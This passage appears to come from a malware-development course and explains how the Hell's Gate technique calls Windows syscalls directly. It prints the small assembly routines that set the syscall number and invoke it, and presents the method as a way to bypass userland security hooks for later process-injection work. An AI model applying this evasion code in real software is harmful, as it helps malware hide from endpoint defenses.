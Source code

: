 [![](66%20Syscalls%20-%20Hell's%20Gate%20d6268c1cdf0f4709ae05a196f475974b/hellsgate-314099314-0029aee9-f8c2-4436-a740-4c2964a952be.png)](66%20Syscalls%20-%20Hell's%20Gate%20d6268c1cdf0f4709ae05a196f475974b/hellsgate-314099314-0029aee9-f8c2-4436-a740-4c2964a952be.png)The result of the bitwise operation matches the SSN number of `NtProtectVirtualMemory`, which is 50 in hex.

[![](66%20Syscalls%20-%20Hell's%20Gate%20d6268c1cdf0f4709ae05a196f475974b/hellsgate-414099901-48434135-7e83-4cd5-aea6-94d1ef75f652.png)](66%20Syscalls%20-%20Hell's%20Gate%20d6268c1cdf0f4709ae05a196f475974b/hellsgate-414099901-48434135-7e83-4cd5-aea6-94d1ef75f652.png)### **Calling The Syscall**

Now that Hell's Gate has fully initialized the `VX_TABLE_ENTRY` structure of the target syscall, it can now call it. To do this, Hell's Gate uses two 64-bit assembly functions: `HellsGate` and `HellDescent`, shown in the [hellsgate.asm](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/hellsgate.asm) file.


```
data
	wSystemCall DWORD 000h              ; this is a global variable used to keep the SSN of a syscall

.code
	HellsGate PROC
		mov wSystemCall, 000h
		mov wSystemCall, ecx            ; updating the 'wSystemCall' variable with input argument (ecx register's value)
		ret
	HellsGate ENDP

	HellDescent PROC
		mov r10, rcx
		mov eax, wSystemCall            ; `wSystemCall` is the SSN of the syscall to call
		syscall
		ret
	HellDescent ENDP
end

```
To call a syscall, first, the syscall number needs to be passed to the `HellsGate` function. This saves it to the `wSystemCall` global variable for future use. Next, `HellDescent` is used to call the syscall by passing the syscall's parameters. This is demonstrated in the [Payload](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L166) function.

### **Conclusion**

It's been shown that bypassing userland hooks is possible through the use of direct syscalls, the SysWhispers tool and Hell's Gate technique. In upcoming modules, the process injection techniques previously implemented will be modified to utilize syscalls instead of WinAPIs.

